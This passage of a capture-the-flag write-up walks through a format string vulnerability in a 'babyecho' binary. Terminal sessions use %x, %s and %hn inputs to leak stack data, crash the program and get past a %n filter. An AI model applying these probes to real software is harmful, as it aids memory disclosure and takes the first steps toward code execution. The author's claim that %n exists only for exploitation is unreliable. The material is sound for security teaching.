 ```
$ <span class="in">./babyecho</span>
Reading 13 bytes
<span class="in">hello</span>
hello
Reading 13 bytes
<span class="in">%x</span>
d
Reading 13 bytes
<span class="in">%x %x %x</span>
d a 0
Reading 13 bytes
<span class="in">%x%x%x%x %x</span>
da0d fffff87c

<p>Basically, it's doing printf(attacker_str) - simple, but a vulnerability. The right way to do it is printf("%s", atatcker_str) - that way, attacker_str won't be mistaken for a format string.</p>
<p>The first important bit is that, with just that simple mistake in development, we can crash the binary:</p>

$ <span class="in">./babyecho</span>
Reading 13 bytes
<span class="in">%s</span>
Segmentation fault (core dumped)

<p>And we can read strings:</p>

Reading 13 bytes
<span class="in">%x%x%x%x %x</span>
da0d fffff87c
$ <span class="in">./babyecho</span>
Reading 13 bytes
<span class="in">%x%x%x%x %s</span>
da0d %x%x%x%x %s

<p>...confusingly, the string at 0xfffff87c was a pointer to the format string itself.</p>
<p>And, with %n, we can crash another way:</p>

Reading 13 bytes
<span class="in">%x%x%x%x %n</span>
da0d _n

<p>...or can we? It looks like the level filtered out %n! But, of course, we can get around that if we want to:</p>

$ <span class="in">./babyecho</span>
Reading 13 bytes
<span class="in">%n</span>
_n
Reading 13 bytes
<span class="in">%hn</span>
Segmentation fault (core dumped)

<p>So we have that in our pocket if we need it. Let's talk about %n for a minute...</p>
<h2>%n? Who uses that?</h2>
<p>If you're a developer, you've most likely seen and used %d and %s. You've probably also seen %x and %p. But have you ever heard of %n?</p>
<p>As far as I can tell, %n was added to printf() specifically to make it possible to exploit format string vulnerabilities. I don't see any other use for it, really.</p>
<p>%n calculates the number of bytes printf() has output so far, and writes it to the appropriate variable. In other words, this:</p>

<span class="Type">int</span> a;
```